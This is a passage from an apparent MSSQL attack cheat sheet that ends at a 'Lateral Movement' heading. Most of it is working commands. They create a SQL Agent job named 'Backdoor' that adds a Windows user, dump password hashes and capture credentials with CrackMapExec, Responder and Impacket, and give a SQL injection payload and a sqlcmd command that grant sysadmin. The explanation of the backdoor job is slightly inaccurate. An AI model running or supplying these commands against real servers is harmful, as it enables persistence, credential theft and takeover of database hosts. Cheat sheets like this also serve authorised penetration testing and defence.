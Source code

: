 #### 3.2 Add Startup Job
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC msdb.dbo.sp_add_job @job_name='Backdoor'; EXEC msdb.dbo.sp_add_jobstep @job_name='Backdoor', @step_name='CommandStep', @subsystem='CmdExec', @command='net user attacker P@ssw0rd /add', @on_success_action=1; EXEC msdb.dbo.sp_add_jobserver @job_name='Backdoor'; EXEC msdb.dbo.sp_start_job @job_name='Backdoor';"
  ```
  Create a scheduled job that runs a command each time the MSSQL server starts.

## 4. Credential Harvesting

#### 4.1 Dump MSSQL Password Hashes
- **CrackMapExec (CME)**:
  ```bash
  cme mssql <target_ip> -u <username> -p <password> --mssql-hashes
  ```
  Dump password hashes from the MSSQL server.

#### 4.2 Capture MSSQL Authentication
- **Responder**:
  ```bash
  responder -I <network_interface> -v
  ```
  Use Responder to capture MSSQL authentication requests on the network.

#### 4.3 Extract Credentials from SQL Server
- **MSSQLClient.py (Impacket)**:
  ```bash
  mssqlclient.py <domain>/<username>:<password>@<target_ip> -windows-auth
  ```
  Connect to the MSSQL server and attempt to extract stored credentials.

## 5. Privilege Escalation

#### 5.1 Escalate Privileges via SQL Injection
- **SQL Injection (Manual)**:
  ```c
  ' OR 1=1; EXEC sp_addsrvrolemember 'attacker', 'sysadmin'; --
  ```
  Exploit SQL injection vulnerabilities to add an attacker account to the `sysadmin` role.

#### 5.2 Escalate to Sysadmin Role
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "ALTER SERVER ROLE [sysadmin] ADD MEMBER [attacker];"
  ```
  Use SQLCMD to escalate privileges to `sysadmin` on the MSSQL server.

## 6. Lateral Movement
